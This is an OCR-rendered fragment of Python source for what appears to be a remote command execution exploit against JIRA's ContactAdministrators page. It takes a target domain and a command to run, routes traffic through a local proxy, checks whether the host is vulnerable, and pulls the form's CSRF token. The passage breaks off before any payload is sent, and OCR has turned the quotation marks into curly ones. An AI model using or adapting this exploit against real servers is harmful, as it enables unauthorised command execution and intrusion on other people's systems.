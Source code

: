 ```
parser = argparse.ArgumentParser()

parser.add_argument(“domain”, help=“JIRA Instance”)

parser.add_argument(“cmd”, help=“Command to run”)

args = parser.parse_args()

#Some Debugging Globals

http_proxy  = “[http://127.0.0.1:8080](http://127.0.0.1:8080)”

https_proxy = “[https://127.0.0.1:8080](https://127.0.0.1:8080)”

ftp_proxy   = “”

#Proxy Dictionary

proxyDict = {

“http”  : http_proxy,

“https” : https_proxy

}

headers = {‘UserAgent’:‘Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0’}

def JiraScan(domain,cmd):

#Filtering host

domain = domain + ‘/secure/ContactAdministrators!default.jspa’

#Checking if host is vulnerable by checking if specific string is present

s = requests.Session()

r = s.get(domain, proxies=proxyDict, verify=False)

html_doc = r.content

soup = BeautifulSoup(html_doc, ‘lxml’)

```
notvuln = soup.findAll("div",{"class":"aui-message aui-message-warning warningd"})
if notvuln:
    print "[-] Not Vulnerable"
else:
    print "[+] Checking if Vulnerable"
    #In order to have valid request we need to handle JIRA CSRF Tokens
    #Extracting atl_token from form
    html_doc = r.content
    soup = BeautifulSoup(html_doc, 'lxml')
    data = soup.findAll(attrs={"name" : "atl_token"})
    print data
    #Returning Token value
    token = data[0]['value']
    print token
    #Replacing path
    domain= domain.replace('!default.jspa','.jspa')